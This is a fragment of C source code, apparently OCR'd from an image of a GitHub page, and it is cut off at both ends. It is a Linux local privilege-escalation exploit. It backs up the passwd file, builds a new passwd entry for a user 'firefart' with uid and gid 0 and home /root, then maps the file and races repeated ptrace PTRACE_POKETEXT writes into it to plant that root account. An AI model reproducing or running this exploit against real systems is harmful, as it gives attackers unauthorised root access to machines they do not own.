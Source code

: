 ```c
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
```